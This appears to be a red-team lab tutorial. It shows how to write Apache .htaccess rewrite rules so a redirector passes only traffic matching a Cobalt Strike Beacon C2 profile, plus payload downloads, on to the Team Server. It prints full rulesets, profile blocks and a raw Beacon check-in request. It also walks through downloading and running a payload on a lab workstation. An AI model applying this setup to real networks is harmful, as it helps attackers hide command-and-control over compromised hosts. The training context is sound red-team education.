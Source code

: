 The final two directives to cover here are `%{REQUEST_URI}` and `%{QUERY_STRING}`.

The request URI is the portion that comes directly after the host IP/hostname, e.g. http://localhost/**index.php**.  The query string is anything that comes after the URI, e.g. http://localhost/index.php**?id=1**.

These in combination are also great for only proxying traffic that match our C2 profile.  Since we're using the `webbug_getonly` profile, we know what those will be for our Beacon.  The URI for GETs is `/___utm.gif` and for POSTs is `/__utm.gif` (identical apart from the number of prepended underscores).

Start off with the following:

RewriteEngine on

RewriteCond %{REQUEST_URI} win-payload [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

  

The first rule will allow the target to download the hosted payload, and the second rule will proxy the URI for the C2 traffic.  Open the console to **WKSTN-1**, launch Edge and navigate to **https://10.10.5.39/win-payload**.  Ignore the SSL warning (because we're using a self-signed certificate) to download the payload, then run it.

All being well, you will get a Beacon that you can issue tasks to and get the results.

We can get even more specific in the RewriteCond directive, because currently, any request that contains `__utm.gif` will get proxied.  We can go back to the C2 profile and look at the other parameters that are included in the requests.  The following is from the `http-get` block in `webbug_getonly.profile`.

set uri "/___utm.gif";
client {
        parameter "utmac" "UA-2202604-2";
        parameter "utmcn" "1";
        parameter "utmcs" "ISO-8859-1";
        parameter "utmsr" "1280x1024";
        parameter "utmsc" "32-bit";
        parameter "utmul" "en-US";

        metadata {
                base64url;
                prepend "__utma";
                parameter "utmcc";
        }
}

  

Each parameter gets added to the URI in the order in which they're defined.  So the above would be `___utm.gif?utmac=UA-2202604-2&utmcn=1` and so on.  Here's an example of a simple check-in request and an empty response (i.e. no new jobs were pending).

GET /___utm.gif?utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utmaKFgztfuYXyCS1e0_9U_JbX5a4wIKqwoOGPEj4gMUCWMstv_UHlWTpOEav3Wqxkgz30RFJUobM_-c7ECCgPdTQzOBe8djfQ-v9epBzMnWhYf1s4CrmfikMPMipTM8iLscRveV-oujpScoiLPDUgrFJONy-m5V9yT0sBZIwsAq_3g HTTP/1.1
Host: localhost:8443
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; WOW64; Trident/5.0; msn OptimizedIE8;ENUS)
Cache-Control: no-cache
X-Forwarded-For: 10.10.120.106
X-Forwarded-Host: 10.10.5.18
X-Forwarded-Server: 10.10.5.18
Connection: close

HTTP/1.1 200 OK
Date: Wed, 3 Nov 2021 13:41:22 GMT
Content-Type: image/gif
Content-Length: 40

GIF89a............!......,...........D.;

  

Adding another RewriteCond rule underneath the existing one turns them into an AND condition.  Where the request URI must contain `__utm.gif` and the query string must match what we expect as per the C2 profile.  We can't predict what the `utmcc` parameter value will be since it's metadata collected from on the compromised endpoint, but we do know it will always begin with `__utma`.

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

  

You may notice at this point that even though the Beacon is still checking in (if not you've made a mistake that is causing the traffic to drop), but it will no longer respond to commands.  This is because the response as defined in the `http-post` block is slightly different, so we need another rewrite condition to account for it.

set uri "/__utm.gif";                                                                                                                                          
set verb "GET";                                                                                                                                                
client {                                                                                                                                                       
        id {                                                                                                                                                   
                prepend "UA-220";                                                                                                                              
                append "-2";                                                                                                                                   
                parameter "utmac";                                                                                                                             
        }                                                                                                                                                      
                                                                                                                                                               
        parameter "utmcn" "1";                                                                                                                                 
        parameter "utmcs" "ISO-8859-1";                                                                                                                        
        parameter "utmsr" "1280x1024";                                                                                                                         
        parameter "utmsc" "32-bit";                                                                                                                            
        parameter "utmul" "en-US";

        output {
                base64url;
                prepend "__utma"; 
                parameter "utmcc";
        }
}

  

The above translates into a request which looks like this:

GET /__utm.gif?utmac=UA-2201937987662-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utmaAAAAMM2E4ZL8UaQNTYkmpPhRcf5VIUVFm2Py10lmXl1BpewAaMKwh2_rnRjgK1vvUZ-inA HTTP/1.1

  

The data portion is at the end of the request (the same place the metadata is placed in the http-get block).  However, the metadata is not sent in a "post", only the Beacon's ID is.  In this case, it's embedded here: utmac=UA-220**1937987662**-2.  Since this is different for each Beacon, it has to be wildcarded - easy enough to do with a regular expression:

RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]

  Remember to add the **[OR]** flag to the previous rewrite condition.

You can also add any "catch all" rules that you want at the very bottom.  If none of the rewrite conditions are satisfied, it will process the final rule as a last resort.  My htaccess file now looks like this, and my Beacon is fully functional:

RewriteEngine on

RewriteCond %{REQUEST_URI} win-payload [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC,OR]
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]                                                                       
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteRule .* - [F]

  

The astute will notice that the two QUERY_STRING rewrite conditions match so closely, that you can actually remove the original and just keep the one with the wildcard in the utmac parameter.  However, since C2 profiles can use drastically different request URIs and query strings in their http-get and http-post blocks, it was worth working through the process of looking at both.

The whole idea behind this is to protect access to our Team Server.  We only want HTTP traffic hitting the Team Server that matches known C2 traffic (or payload download requests).  Have a play with curl/wget and see if you can leak any information from the Team Server.  If you can, try and lock down the htaccess rules more.